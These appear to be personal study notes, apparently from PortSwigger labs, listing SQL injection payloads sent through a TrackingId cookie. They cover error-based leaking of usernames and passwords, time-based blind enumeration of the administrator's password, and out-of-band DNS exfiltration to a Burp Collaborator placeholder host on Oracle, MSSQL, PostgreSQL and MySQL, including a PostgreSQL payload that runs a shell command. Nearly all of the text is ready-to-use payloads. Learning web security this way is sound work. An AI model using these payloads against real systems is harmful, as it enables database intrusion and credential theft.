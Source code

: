 
#### Visible error-based
##### generate an error
```sql
Cookie: TrackingId=fLnCztNur00UGAsB'
```
##### leak data
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' AND (1=CAST((SELECT username from users limit 1) AS int))-- 'https://portswigger.net/web-security/sql-injection/cheat-sheet

Cookie: TrackingId=fLnCztNur00UGAsB' AND (1=CAST((SELECT password from users limit 1) AS int))-- '
```


#### Time Delays 
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (SELECT pg_sleep(10))-- => delay in response => valid sqli
```

##### Confirm users table exists and admin user
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (SELECT case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)-- => delay in response => valid sqli
```
##### Get the password length
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (SELECT case when (username='administrator' and length(password)=20) then pg_sleep(10) else pg_sleep(-1) end from users)-- => delay in response => valid sqli
##```
##### Enumerate the password 
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (SELECT case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)-- => delay in response => valid sqli
```
- ![[Pasted image 20230908041354.png]]


### Out-Of-Band -- u need burp collaborator for this attack
#### DNS lookup
##### Oracle 
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual -- '
```
##### Microsoft
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a') --
```
##### PostgreSQL
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN') --
```
##### Mysql
```sql
-- works in windows only
Cookie: TrackingId=fLnCztNur00UGAsB' || (LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')) --'

or 

Cookie: TrackingId=fLnCztNur00UGAsB' (SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a') --
```